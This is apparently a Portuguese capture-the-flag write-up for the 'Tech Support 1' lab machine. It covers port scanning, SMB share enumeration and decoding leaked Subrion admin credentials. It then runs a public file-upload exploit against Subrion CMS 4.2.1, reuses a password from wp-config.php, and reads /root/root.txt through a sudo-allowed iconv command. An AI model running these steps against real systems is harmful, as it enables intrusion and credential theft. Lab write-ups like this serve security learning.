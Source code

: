 TECH SUPPORT 1 CTF

Ao gerar o ip dei o comando nmap para verificar as portas abertas

    nmap -A -sV -Pn IP

Encontrando as portas:

    22 80 139 445

rodando um smbclient que e um programa similar ao ftp, usado para
transferencias de arquivos, ao tentar entrar ele pede uma senha ao nao inserir nada ele me retorna um help que usando alguns parametros eu podia visualizar algumas coisas 
usando o parametro -L 

    smbclient -L IP

Ele me retornava

     Sharename       Type      Comment
     ---------       ----      -------
     print$          Disk      Printer Drivers
     websvr          Disk
     IPC$            IPC       IPC Service (TechSupport server (Samba, Ubuntu))

Procurando pelo diretorio..

    smbclient //IP/websvr

Nao era possivel ler mas era possivel baixa-lo, entao..


    GOALS
    =====
    1)Make fake popup and host it online on Digital Ocean server
    2)Fix subrion site, /subrion doesn't work, edit from panel
    3)Edit wordpress website

Assim me retornando 

    IMP
    ===
    Subrion creds
    |->admin:7sKvntXdPEJaxazce9PXi24zaFrLiKWCk [cooked with magical formula]
    Wordpress creds
    |->

Usuario e senha: 

    username admin
    pass 7sKvntXdPEJaxazce9PXi24zaFrLiKWCk

Aparentemente o servidor poderia ter um wordpress que procurei usando a ferramenta Gobuster

Encontrando o diretorio nao era possivel realizar nada de util..
Assim fui atras do site que informava no enter.txt

    IP/subrion/panel

para entrar tinha que descriptografar a senha..

usando o CyberChef.. 

    https://gchq.github.io/CyberChef/

E introduzindo o HASH ele voltava com a senha..

    Scam2021

Assim..

    Username: admin
    Pass: Scam2021

Acessando o dashboard tinha a versao do subrion CMS

    Subrion CMS v4.2.1

Procurando exploits, encontrei 4 exploits para essa versao...

Usando a falha:

    Arbitrary File Upload

    python3 49876 -u http://IP/subrion/panel/ -l admin -p Scam2021

Podiamos dar ls e cat em qualquer diretorio, mas nao navegar por ele, entao indo atras do wordpress do servidor

Encontrei na pasta wordpress a config dele
    
    cat /var/www/html/wordpress/wp-config.php

Acessando a senha e um user support da database

    pass ImAScammerLOL!123!

ao entrar entrar com o user support nao deu certo... entao fui buscar
um outro usuario, dentro da pasta /etc/passwd tinha um outro user executando arquivos
scamsite

    user scamsite
    pass ImAScammerLOL!123!

Ao acessar eu ja sabia que a flag estava na pasta root, entao ja tenho que escalar os privilegios

    sudo -l
    (ALL) NOPASSWD: /usr/bin/iconv

Ao procurar um script para executar como root no gtfobins..

    sudo /usr/bin/iconv iconv-f 8859_1 -t 8859_1 "/root/root.txt"

Ao executar...

    FLAG: 851b8233a8c09400ec30651bd1529bf1ed02790b -


DESAFIO CONCLUIDO!